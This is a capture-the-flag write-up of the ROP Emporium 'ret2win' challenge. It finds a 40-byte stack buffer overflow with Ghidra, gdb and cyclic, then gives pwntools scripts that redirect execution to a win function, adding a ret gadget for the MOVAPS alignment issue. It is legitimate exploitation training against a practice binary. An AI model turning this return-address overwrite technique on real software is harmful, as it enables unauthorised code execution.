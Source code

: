 ```yaml
---
title: "ROP Emporium - ret2win"
summary: "pwn"
categories: ["Post","writeup","pwn"]
tags: ["pwn","pwntools", "ROP"]
header_img: img/rop.png
#externalUrl: ""
#showSummary: true
date: 2023-06-20
draft: false

---
```


Starting off, I stumbled across [ROP Emporium website](https://ropemporium.com/), So I will be tackling its challenges, first challenge is ret2win, the challenge can be downloaded [here](https://ropemporium.com/challenge/ret2win.html)

This challenge is a ret2win that is we must return to a function we want hence win. First we check the file permissions using checksec.

![image](Capture1.PNG) We see that in PIE is NO PIE meaning we can execute a function without the address being changed.

Let's run the file and see what it does. If I input the string "hello there" it prints out thank you response and then exits.
![image](cap2.PNG)
SInce this is a buffer overflow challenge let's  try to overflow it, I will use cyclic since it comes pre installed with pwntools.
![image](cap3.PNG)
Nice we get a seg fault that means we have overflowed the data. We can disassemble it using ghidra to see how it works.

In the main function: ![image](cap4.PNG) We see the main thing it does it prints 2 statements then calls a function pwnme(). In the function pwnme():
![image](cap5.PNG) It starts by declaring a local variable which can hold upto 32 bytes. Then it prints the rest of the statement which we saw when we ran the program. Then there is a read function which reads 0x38 bytes hence creating a buffer overflow since local_28 can only read 32 bytes of data. ![image](cap6.PNG) So in the functions section there is a ret2win function ![image](cap7.PNG). We see a call to system that prints flag.txt, thats the function we want.

Now let's find our offset. There are many ways of finding the offset:
I will use my favorite one. 

### Using gdb and cyclic.
Start with cyclic 100 to get random characters to overflow the buffer.
<pre>aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa</pre>
We need to break right after the read function so that we see what happens in the stack. We set a breakpoint at mov function after reads function. ![image](cap9.PNG) next we can run the program and paste the cyclic pattern generated.
![image](cap10.PNG) ![image](cap11.PNG) The program stopped since we hit a breakpoint, nice! Next command we will type c to continue.
![image](cap12.PNG)
The program now stopped due to sigsegv(segmentation fault). Now since this is an x64 program to determine our offset we will copy the value of rsp since that is the stack pointer. The value is "kaaalaaa"
Now use cyclic -l "kaaalaaa" to find the offset. ![image](cap13.PNG). The offset is 40. Now we can develop our exploit using pwntools.


#### Developing exploit
We need the ret2win address, we can copy the address from gdb. ![image](cap14.PNG)
```python
 from pwn import *
 context.binary = binary = ELF("./ret2win)

 p = process()
 # pad the buffer with 40 A's
 buffer = b"A"*40 
 # the ret2win function we need to jump to.
 win = p64(0x0000000000400756)
 payload = buffer + win

# we tell the program to receive the ouput until >
 p.recvuntil(b">")
 p.sendline(payload)
 p.interactive()

 ```

 Now this program should print our flag, but in my case in this writeup I am using Ubuntu 22-04, so in UBUNTU there is something called MOVAPS issue which causes stack alignment issues, so in order for this to work we need to add a ret function. We can use another tool that comes pre installed with pwntools called ROPgadget
 ![image](cap15.PNG)

So our updated code will be:
```python
from pwn import *
context.binary = binary = ELF("./ret2win")

p = process()
# pad the buffer with 40 A's
buffer = b"A"*40
# the ret function due to MOVAPS
ret = p64(0x000000000040053e)
# the ret2win function we need to jump to.
win = p64(0x0000000000400756) 
payload = buffer + ret +win

# we tell the program to receive the ouput until >
p.recvuntil(b">")
p.sendline(payload)
p.interactive()
```
When we ran the program:
![image](cap16.PNG)
That is it for that challenge. On to the next one.
